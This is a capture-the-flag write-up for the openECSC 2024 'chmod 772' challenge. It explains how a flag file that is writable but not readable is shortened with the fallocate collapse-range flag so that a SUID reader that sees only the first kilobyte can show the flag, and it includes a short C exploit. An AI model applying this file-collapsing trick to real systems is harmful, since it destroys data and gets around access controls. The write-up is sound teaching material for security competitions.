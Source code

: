 # openECSC 2024 - Final Round

## [misc] chmod 772 (12 solves)

Someone run `chmod 772` on the flag.

I had `1kat` installed, but it can read only the first kB of a file, can you read the flag?

`nc chmod772.challs.open.ecsc2024.it 47002`

Author: Giovanni Minotti <@Giotino>

## Overview

The player is presented with a linux shell, by running the `ls` command a file named `flag.txt` is show. The file cannot be read since ti has `772` permissions and the shell is running as a non-owner user and group from the file perspective.  
There's is also a binary named `1kat` that can read only the first kB of a file and its SUID bit is set, hence it can read the flag.  
The flag if precedeed by "`Flag at the end of the file -> `" and 2048 `*`; `1kat` can't read it all.

## Solution

https://man7.org/linux/man-pages/man2/fallocate.2.html

The syscall `fallocate` "allows the caller to directly manipulate the allocated disk space for the file", it's mainly used to allocate disk space, but it can also manipulate the file space in other ways.  
The `FALLOC_FL_COLLAPSE_RANGE` (`0x8`) flag is used to collapse space.

```
int fallocate(int fd, int mode, off_t offset, off_t len);

[...]

Collapsing file space

Specifying the FALLOC_FL_COLLAPSE_RANGE flag (available since
Linux 3.15) in mode removes a byte range from a file, without
leaving a hole.  The byte range to be collapsed starts at offset
and continues for len bytes.  At the completion of the operation,
the contents of the file starting at the location offset+len will
be appended at the location offset, and the file will be len
bytes smaller.

A filesystem may place limitations on the granularity of the
operation, in order to ensure efficient implementation.
Typically, offset and len must be a multiple of the filesystem
logical block size, which varies according to the filesystem type
and configuration.  If a filesystem has such a requirement,
fallocate() fails with the error EINVAL if this requirement is
violated.

If the region specified by offset plus len reaches or passes the
end of file, an error is returned; instead, use ftruncate(2) to
truncate a file.

No other flags may be specified in mode in conjunction with
FALLOC_FL_COLLAPSE_RANGE.

As at Linux 3.15, FALLOC_FL_COLLAPSE_RANGE is supported by ext4
(only for extent-based files) and XFS.
```

In this case we can collapse multiples of `1024` bytes, since the block size is `1024` bytes (as shown using `stat -fc %s .` in the challenge directory), and the file system is ext4 (as shown using `mount`).

After collapsing the file, we can read the flag with `1kat`.


## Exploit

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

int main()
{
  int start = 1024 * 2; // Must be a multiple of the block size (1024)

  int fd = open("flag.txt", O_APPEND | O_WRONLY);
  printf("FD = %d\n", fd);

  int r = fallocate(fd, 0x8, 0, start);
  printf("r = %d\n", r);
  perror("fallocate");

  close(fd);
  return 0;
}
```
